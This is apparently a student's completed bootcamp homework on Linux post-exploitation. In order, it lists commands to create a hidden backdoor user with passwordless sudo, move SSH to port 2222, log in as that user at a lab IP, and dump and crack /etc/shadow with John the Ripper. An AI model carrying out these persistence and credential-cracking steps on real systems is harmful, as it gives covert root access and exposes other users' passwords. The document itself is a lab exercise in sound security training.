 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser --uid 113 --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 113`

4. Give your secret user the same GID:
   - `usermod -g sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` then, in sudoers file `sysd ALL=(ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
   Port 2222 
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    ```bash
    sudo -s
    unshadow /etc/passwd /etc/shadow > /tmp/pfj
    john /tmp/pfj
    john --show /tmp/pfj
    ````

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

